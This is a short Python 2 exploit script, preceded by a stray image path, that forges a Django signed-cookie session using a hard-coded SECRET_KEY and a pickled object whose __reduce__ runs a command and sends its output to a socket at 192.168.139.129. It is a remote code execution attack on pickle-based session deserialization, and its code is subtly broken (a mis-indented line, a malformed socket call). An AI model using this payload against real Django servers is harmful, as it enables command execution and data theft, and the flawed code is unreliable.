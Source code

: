 # scroll
滚动条
# coding: utf-8
from django.contrib.sessions.serializers import PickleSerializer
from django.core import signing
from django.conf import settings

settings.configure(SECRET_KEY='oa4$kkk802=rfm@tl^e5yb3qvs_ea3r!m*&j+#_+s-9=xcieci')  # SECRET_KEY 参数的值为 demo Django 项目的 SECRET_KEY 值


class CreateTmpFile(object):
    def __reduce__(self):
        import subprocess
         return (subprocess.call,
                (['python',
                  '-c',
                  'import os,socket;c=os.popen("ls").read().strip();'
                  's=socket.socket(socket.AF_INET,socket.SOCK_STREAM);'
                  's.connect(c,("192.168.139.129",22));'],))


sess = signing.dumps(
    obj=CreateTmpFile(),
    serializer=PickleSerializer,
    salt='django.contrib.sessions.backends.signed_cookies'
)
print sess
